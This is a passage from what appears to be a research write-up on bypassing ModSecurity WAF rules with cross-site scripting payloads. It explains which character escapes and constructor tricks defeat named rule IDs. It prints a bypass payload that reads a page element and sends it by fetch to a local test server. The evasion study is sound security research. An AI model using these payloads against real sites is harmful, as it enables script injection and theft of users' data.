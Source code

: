As the payload is meant to be injected into an html document, HTML escaping can be used to escape certain characters. On escaping of the character \verb|a| in \verb|j&#97vascript|, the payload evades the rules with ids \verb|941170| and \verb|941210|. On escaping the \verb|.| in \verb|getElementsByName('name')[0]&#46innerHTML|, the payload evades rule \verb|941180|. Finally one of the \verb|/| in the string given to the JavaScript function \verb|fetch| is escaped by prepending it with a \verb|\|. Escaping any normal character with a \verb|\| is allowed in JavaScript (Section~\ref{sec:jsescape}) and successfully makes the payload evade the last remaining rule: \verb|934110|. The bypassing payload:

\begin{lstlisting}[style=basicStyle]
<a href=j&#97vascript:var secret = document.getElementsByName('name')[0]&#46innerHTML;var data = {body:secret,method:'POST'};fetch('http:\//localhost:3001/api/ping?secret=something',data)>ClickMeFor$</a>
\end{lstlisting}


\subsubsection{Function constructor + String concatenation}
\label{sec:funconstrconbypass}
In this test, the payload logic should include multiple statements and reveal a secret by accessing a property.
The basic implementation is blocked by the ModSecurity firewall:

\begin{lstlisting}[style=ruleStyle, language=XML, caption=function constructor blocked, label={lst:funconblocked}]
<payload>new Function('var s = "secret";prompt("something", s)')()</payload>

<message>"Node.js Injection Attack 1/2"</message>
<file>"/rules/REQUEST-934-APPLICATION-ATTACK-GENERIC.conf"</file>
<fileDetails>[line "52"] [id "934100"]<fileDetails>
<MatchedData>"new Function("</MatchedData>

<message>"Javascript method detected"</message>
<file>"/rules/REQUEST-941-APPLICATION-ATTACK-XSS.conf"</file>
<fileDetails>[line "714"] [id "941390"]<fileDetails>
<MatchedData>"prompt("</MatchedData>
\end{lstlisting}

To evade rule with id \verb|934100|, calling the \verb|Function()| constructor was substituted with \verb|[]['constructor']['constructor']()|. Using string concatenation to replace the character sequence \verb|'prompt'| with \verb|'promp + t'| successfully made the payload evade rule \verb|941390| and bypass the WAF. The bypassing payload:

